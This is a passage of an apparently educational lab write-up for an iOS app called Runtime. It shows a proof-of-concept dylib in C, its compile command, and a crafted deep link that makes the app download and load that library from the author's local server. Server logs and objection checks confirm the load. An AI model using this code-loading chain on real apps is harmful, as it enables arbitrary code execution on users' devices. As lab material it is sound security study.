 This is our **`license.c`** file.
```C
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>
#include <string.h>

int register_device(void) {
    FILE *file = fopen("license_pwned.txt", "w");
    if (file) {
        fprintf(file, "Exploited!\n");
        fclose(file);
    }
    return 1;
}
```
We need put the file in the **same** *work directory* that our flask server.

Now, let's compile that
```bash
clang -arch arm64 -dynamiclib -o license.dylib license.c
```

![[runtime2.png]]

Now we just need open browser and then go to
`runtime://starttrial?server=192.168.1.75:8080/runtime?x=mhl.pages.dev&trialKey=1234-5678-ABCD`

(`192.168.1.75` is my local IP)

But, for don't write the whole URL, we can use **qrencode** tool for just scan the URL.
```bash
qrencode "runtime://starttrial?server=192.168.1.75:8080/runtime?x=mhl.pages.dev&trialKey=1234-5678-ABCD" -o QR.png
```
Scan the **`.png`** and then, open the the Runner app.

We got the responses!
```bash
192.168.1.90 - - [20/Feb/2025 20:22:26] "GET /runtime?x=mhl.pages.dev/health HTTP/1.1" 200 -
192.168.1.90 - - [20/Feb/2025 20:22:26] "POST /runtime?x=mhl.pages.dev/activate HTTP/1.1" 200 -
192.168.1.90 - - [20/Feb/2025 20:22:26] "GET /runtime?x=mhl.pages.dev/download HTTP/1.1" 200 -
```

![[runtime3.png]]

So, where the **`.dylib`** file was uploaded and our **`.txt`** file?
We can use objection for that:
With the app running
```bash
objection -g "Runtime" explore
```
![[runtime4.png]]

Then, via SSH we can see in **`Documents`** directory:
![[runtime5.png]]

I hope you found it useful (: